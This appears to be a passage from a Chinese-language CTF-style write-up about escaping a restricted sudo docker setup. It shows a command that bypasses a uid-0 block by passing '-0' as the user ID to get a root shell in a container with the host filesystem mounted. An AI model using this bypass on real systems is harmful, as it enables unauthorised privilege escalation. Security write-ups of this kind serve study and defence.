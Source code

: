 灵机一动！uid 不是整数类型的吗？众所周知，不像浮点数，整数的 +0 和 -0 就是一个东西。既然你不让我指定 uid 为 `0`，那我用 `-0` 不就行了吗？

```plain
dockerv:/tmp$ sudo docker run --rm --security-opt=no-new-privileges -u 1000:1000 --user -0:0 -v /:/host -it alpine
~ # cat /host/dev/vdb
cat: can't open '/host/dev/vdb': Operation not permitted
```

成功获取 root shell！可是这是在容器内，依旧不能读设备块，怎么办呢？我都有 root 了，总该做点什么吧…… 是时候拿出 Linux 用户的祖传秘技了：

<img alt="chmod 777" src=_assets/image-22.png width=300 />
